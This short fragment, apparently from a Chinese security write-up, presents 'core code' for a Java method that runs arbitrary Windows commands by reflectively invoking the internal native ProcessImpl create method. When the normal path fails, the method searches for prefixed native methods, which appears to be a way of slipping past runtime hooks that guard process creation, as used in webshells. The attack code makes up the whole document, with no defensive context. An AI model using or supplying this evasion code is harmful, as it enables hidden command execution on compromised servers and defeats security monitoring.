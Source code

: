 核心代码：

```plain
public static String WinCreateProcess(String cmd) throws Exception {
    Class<?> processImplClass = Class.forName("java.lang.ProcessImpl");
    long[] stdHandles = new long[]{-1, -1, -1}; // Initialize as invalid handles.
    sun.misc.JavaIOFileDescriptorAccess fdAccess
            = sun.misc.SharedSecrets.getJavaIOFileDescriptorAccess();

    // 这里将 redirectErrorStream 设置为 true 以便于将错误输出重定向到标准输出
    boolean redirectErrorStream = true;
    try {
        Method createMethod = processImplClass.getDeclaredMethod("create",
                String.class, String.class, String.class, long[].class, boolean.class);
        createMethod.setAccessible(true);
        long processHandle = (Long) createMethod.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
    } catch (Exception e) {
        System.out.println("[-] reflect create failed,try to bypass");
        for (Method m : processImplClass.getDeclaredMethods()) {
            if (m.getName().endsWith("create") && !m.getName().equals("create")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                long processHandle = (Long) m.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
            }
        }
    }

    FileDescriptor stdout_fd = new FileDescriptor();
    fdAccess.setHandle(stdout_fd, stdHandles[1]);
    InputStream stdout_stream = new BufferedInputStream(
            new FileInputStream(stdout_fd));

    return getStreamStr(stdout_stream, "GBK");
}
```
